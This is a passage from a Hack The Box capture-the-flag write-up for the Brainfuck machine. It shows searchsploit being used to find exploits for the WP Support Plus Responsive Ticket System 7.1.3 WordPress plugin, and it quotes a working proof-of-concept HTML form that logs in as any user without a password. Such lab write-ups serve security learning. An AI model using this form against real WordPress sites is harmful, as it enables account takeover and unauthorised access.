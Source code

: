 I used `searchsploit` to find public exploits about WordPress version 4.7.3, but no dice.

**However, the plugin "Support Plus Responsive Ticket System" is interesting:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|16:35:11(HKT)]
└> searchsploit wordpress support-plus-responsive-ticket-system
-------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                    |  Path
-------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation            | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection                   | php/webapps/40939.txt
-------------------------------------------------------------------------------------------------- ---------------------------------
```

Looks like version 7.1.3 is vulnerable to Privilege Escalation and SQL Injection?

**Let's mirror them:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|16:35:22(HKT)]
└> searchsploit -m 41006                                       
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/siunam/ctf/htb/Machines/Brainfuck/41006.txt


┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|16:35:37(HKT)]
└> searchsploit -m 40939
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection
      URL: https://www.exploit-db.com/exploits/40939
     Path: /usr/share/exploitdb/exploits/php/webapps/40939.txt
    Codes: N/A
 Verified: True
File Type: Unicode text, UTF-8 text
Copied to: /home/siunam/ctf/htb/Machines/Brainfuck/40939.txt
```

**In `41006.txt`, we can login as any user with the following POST request:**
```
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
[...]
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>

```